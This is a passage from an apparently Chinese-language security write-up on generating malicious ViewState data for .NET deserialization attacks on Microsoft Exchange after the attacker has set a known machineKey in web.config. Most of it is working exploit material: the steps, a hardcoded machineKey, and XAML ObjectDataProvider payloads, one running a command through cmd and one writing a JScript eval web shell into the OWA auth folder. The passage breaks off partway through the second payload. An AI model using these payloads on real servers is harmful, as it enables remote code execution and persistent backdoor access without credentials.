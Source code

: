 具体细节可使用dnSpy反编译System.Web.dll，找到System.Web.Configuration.MachineKeySection的GetEncodedData函数

## 0x03 两种生成ViewState的实现方法
---

测试环境：

获得了Exchange文件读写权限，能够修改`%ExchangeInstallPath%\FrontEnd\HttpProxy\owa\web.config`和`%ExchangeInstallPath%\FrontEnd\HttpProxy\ecp\web.config`，设置machineKey的内容如下：

`<machineKey validationKey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" decryptionKey="E9D2490BD0075B51D1BA5288514514AF" validation="SHA1" decryption="3DES" />`

对于这两个位置的.Net反序列化命令执行，不再需要合法用户的凭据

下面介绍两种生成ViewState的程序实现方法

### 1.从xaml数据生成ViewState

流程如下：

1. 构造xaml数据
2. 生成序列化xaml数据
3. 生成签名数据
4. 拼接序列化xaml数据和签名数据后作Base64编码

(1)构造xaml数据

这里介绍4种，分别对应4个功能

执行命令：

```
<ResourceDictionary xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" 
    xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"
  xmlns:System="clr-namespace:System;assembly=mscorlib" 
    xmlns:Diag="clr-namespace:System.Diagnostics;assembly=system">
     <ObjectDataProvider x:Key="" ObjectType="{x:Type Diag:Process}" MethodName="Start" >
     <ObjectDataProvider.MethodParameters>
        <System:String>cmd</System:String>
        <System:String>"/c notepad"</System:String>
     </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
</ResourceDictionary>
```

写文件：

```
<ResourceDictionary xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"
    xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml" 
    xmlns:s="clr-namespace:System;assembly=mscorlib"
    xmlns:w="clr-namespace:System.Web;assembly=System.Web">
  <s:String x:Key="a" x:FactoryMethod="s:Environment.GetEnvironmentVariable" x:Arguments="ExchangeInstallPath"/>
  <s:String x:Key="b" x:FactoryMethod="Concat">
    <x:Arguments>
      <StaticResource ResourceKey="a"/>
      <s:String>FrontEnd\\HttpProxy\\owa\\auth\\xaml.aspx</s:String>
    </x:Arguments>
  </s:String>
  <ObjectDataProvider x:Key="x" ObjectType="{x:Type s:IO.File}" MethodName="WriteAllText">
    <ObjectDataProvider.MethodParameters>
      <StaticResource ResourceKey="b"/>
      <s:String>&lt;%@ Page Language=&quot;Jscript&quot;%&gt;&lt;%eval(Request.Item[&quot;pass&quot;],&quot;unsafe&quot;);%&gt;
      </s:String>
    </ObjectDataProvider.MethodParameters>
  </ObjectDataProvider>
```
